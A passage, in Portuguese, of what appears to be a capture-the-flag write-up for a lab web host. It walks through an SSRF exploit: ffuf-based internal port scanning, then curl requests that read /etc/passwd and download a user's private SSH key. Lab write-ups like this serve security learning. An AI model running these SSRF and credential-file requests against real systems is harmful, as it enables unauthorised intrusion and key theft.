 **Port scan interno por SSRF:**

```bash
ffuf -u http://beta.creative.thm/ \
     -d "url=http://127.0.0.1:FUZZ/" \
     -w <(seq 1 65535) \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -mc all -t 100 -fs 13
```

**Portas internas descobertas:**

```
80   [200]
1337 [200]
```

A porta **1337** retorna *Directory Listing* do **filesystem “/”** do host quando acessada via SSRF:

```bash
curl -s -X POST http://beta.creative.thm/ \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://127.0.0.1:1337/'
```

---

## 🗂️ Exfiltrando arquivos pelo fileserver local

Obter usuários reais:

```bash
curl -sX POST http://beta.creative.thm/ -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://127.0.0.1:1337/etc/passwd'
```

**Usuários com shell:** `root`, `saad` (UID 1000), `ubuntu` (UID 1001)

Listar `.ssh` do **saad**:

```bash
curl -sX POST http://beta.creative.thm/ -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://127.0.0.1:1337/home/saad/.ssh/'
```

Arquivos presentes: `authorized_keys`, `id_rsa`, `id_rsa.pub`, `known_hosts`
(`ubuntu` → *Dead*)

Baixar a chave privada e ajustar permissões:

```bash
curl -sX POST http://beta.creative.thm/ -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://127.0.0.1:1337/home/saad/.ssh/id_rsa' > saad_id_rsa
chmod 600 saad_id_rsa
```

A chave estava criptografada (OpenSSH/bcrypt).

---
